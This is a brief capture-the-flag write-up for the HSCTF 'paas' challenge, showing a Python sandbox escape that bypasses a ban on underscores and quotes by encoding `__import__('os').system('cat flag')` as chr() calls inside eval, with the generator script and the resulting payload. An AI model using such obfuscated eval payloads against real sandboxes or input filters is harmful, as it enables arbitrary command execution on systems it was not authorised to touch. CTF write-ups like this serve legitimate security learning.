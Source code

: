 ```yaml
---
created: 2024-06-11T01:36
updated: 2024-06-11T01:38
---
```


## HSCTF - miscellaneous/paas

Python sandbox escape with ban on most characters like `_` and quotes

```python
str = '__import__("os").system("cat flag")'

print('eval('+'+'.join(['chr(%d)' % ord(c) for c in str])+')')
```

```python
eval(chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95)+chr(40)+chr(34)+chr(111)+chr(115)+chr(34)+chr(41)+chr(46)+chr(115)+chr(121)+chr(115)+chr(116)+chr(101)+chr(109)+chr(40)+chr(34)+chr(99)+chr(97)+chr(116)+chr(32)+chr(102)+chr(108)+chr(97)+chr(103)+chr(34)+chr(41))
```
